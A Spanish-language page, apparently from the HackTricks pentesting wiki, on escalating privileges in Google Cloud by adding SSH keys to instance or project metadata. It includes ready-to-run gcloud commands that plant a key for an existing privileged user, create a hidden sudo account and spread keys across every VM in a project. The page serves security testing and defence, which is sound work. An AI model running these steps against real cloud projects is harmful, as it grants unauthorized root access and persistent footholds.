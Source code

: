 # GCP - Agregar Metadatos SSH Personalizados

## GCP - Agregar Metadatos SSH Personalizados

{{#include ../../../../banners/hacktricks-training.md}}

### Modificación de los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

#### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, **los sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Linux de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [demonio de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones a las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar los metadatos personalizados, podría hacer que el demonio encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

#### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar Claves SSH Existentes en la Instancia:**

- Ejecutar el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Prestar atención al formato de las claves SSH: el nombre de usuario precede a la clave, separado por dos puntos.

2. **Preparar un Archivo de Texto para Metadatos de Clave SSH:**
- Guardar los detalles de los nombres de usuario y sus correspondientes claves SSH en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se añaden nuevas.
3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**

- Usar el comando `ssh-keygen` para generar una nueva clave SSH, asegurándose de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Agregar la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.

4. **Actualizar los Metadatos de Clave SSH de la Instancia:**

- Aplicar los metadatos de clave SSH actualizados a la instancia usando el comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Acceder a la Instancia Usando la Nueva Clave SSH:**

- Conectarse a la instancia con SSH usando la nueva clave, accediendo a la shell en el contexto del usuario objetivo (`alice` en este ejemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra un usuario interesante, es posible crear uno nuevo al que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube al **aplicar claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí hay una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**

- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH en Instancias Usando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes SSH en cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para SSH en una instancia es usar el comando `gcloud compute ssh [INSTANCE]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.

## Referencias

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
